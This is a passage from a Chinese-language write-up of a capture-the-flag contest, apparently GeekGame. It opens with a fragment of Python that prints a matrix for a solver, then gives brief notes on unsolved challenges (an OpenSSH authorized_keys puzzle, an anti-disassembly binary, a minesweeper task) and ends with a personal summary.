        for j in range(length-1):
            if i == j:
                print("1,", end='')
            else:
                print("0,", end='')
        print(f"-a{i}", end='')
        print("}", end='')
        if i != length - 1:
            print(",", end='')

    print("}]")
```

然后肉眼找靠谱的解：



## 没做出来的题

### 我用 108 天录了个音（第二小题）

懒得调参数了。好像即使是没有声音，如果时长很长，生成的 ogg 还是很大，不知道怎么改。

### 小 Z 的服务器

我仔细读了 OpenSSH 的源代码，最后没想通怎么让 authorized_keys 的 owner 是 root（或者 admin1）。可能要利用 SUID 程序，但是实在没自己想出来。

### 简单题

一开始看到，以为是要用那个 [movfuscator](https://github.com/xoreaxeaxeax/movfuscator)。后来发现 `mov` 没法模拟 `syscall`，之后感觉像是 anti-disassemble 的技术，但是对 x86 汇编实在不熟，于是偃旗息鼓。

### 混淆器

没看题。

### 扫雷 II（第二、三小题）

应该没那么难，感觉自己有的地方可能没有想通。

## 总结

挺好的，终于体验了一次比赛位列前三的感觉。希望 GeekGame 也越办越好，多整好活。

另外这个礼拜我的作息成功地被调到了 UTC+0。之后慢慢调回来吧。
